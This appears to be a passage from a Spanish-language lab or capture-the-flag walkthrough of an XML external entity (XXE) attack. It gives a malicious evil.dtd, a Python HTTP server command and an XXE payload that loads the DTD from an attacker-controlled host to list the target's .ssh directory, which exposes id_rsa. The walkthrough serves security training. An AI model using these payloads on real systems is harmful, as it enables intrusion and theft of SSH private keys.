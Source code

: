 Se recupera el contenido del archivo flag1:

```
Flag 1: 5f1210be00b4b8dfecba7b56181d905c
```

Regrese a la terminal que ejecuta el servidor HTTP basado en Python:

Observe que hubo una solicitud de la máquina de destino para obtener el archivo evil.dtd.

Paso 9: Busca el contenido del directorio .ssh.

Modifique el archivo evil.dtd para obtener el contenido del directorio .ssh:

```
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "http://localhost:8888/.ssh/">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>">
```

Inicie un servidor HTTP basado en Python en el puerto 8080:

Mandar:

```
python3 -m http.server 8080
```

Envíe la misma carga útil XXE que enviamos en el último paso:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

Se recupera la lista de directorios para el directorio .ssh:

Guarde el contenido HTML recuperado:

Mandar:

```
cat listing.html
```

Abra el archivo listing.html en el navegador:

URL:

```
file:///root/listing.html
```

Tenga en cuenta que hay tres archivos en el directorio .ssh:

```
authorized_keys
id_rsa
id_rsa.pub
```
